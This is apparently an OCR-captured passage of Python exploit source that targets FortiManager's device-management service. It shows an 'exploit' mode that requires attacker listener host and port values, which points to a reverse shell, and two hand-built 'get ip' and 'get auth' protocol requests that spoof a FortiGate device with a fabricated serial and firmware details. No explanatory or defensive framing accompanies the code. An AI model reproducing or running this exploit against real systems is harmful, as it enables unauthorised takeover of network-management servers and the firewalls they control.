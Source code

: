 ```python


if(args.action == "exploit"):
    if(args.lhost == 'empty' or args.lport == 'empty'):
        print("[ERROR] you got an error, because you chose the 'exploit' mode but didnt provide the '--lhost and --lport'")
        exit(1)


# print("[DEBUG] go and run the following command on your fortimanager -> tail -f /var/log/fdssvrd.log")
# input("press enter to continue")


request_getip = b"""get ip
serialno=FGVMEVWG8YMT3R63
mgmtid=00000000-0000-0000-0000-000000000000
platform=FortiGate-VM64
fos_ver=700
minor=2
patch=2
build=1255
branch=1255
maxvdom=2
fg_ip=192.168.1.53
hostname=FGVMEVWG8YMT3R63
harddisk=yes
biover=04000002
harddisk_size=30720
logdisk_size=30235
mgmt_mode=normal
enc_flags=0
first_fmgid=
probe_mode=yes
vdom=root
intf=port1
\0""".replace(b"\n",b"\r\n")



request_auth=b"""get auth
serialno=FGVMEVWG8YMT3R63
mgmtid=00000000-0000-0000-0000-000000000000
platform=FortiGate-60E
fos_ver=700
minor=2
patch=4
build=1396
branch=1396
maxvdom=2
fg_ip=192.168.1.53
hostname=FortiGate
harddisk=yes
biover=04000002
harddisk_size=30720
logdisk_size=30107
mgmt_mode=normal
enc_flags=0
mgmtip=192.168.1.53
mgmtport=443
\0""".replace(b"\n",b"\r\n")


```
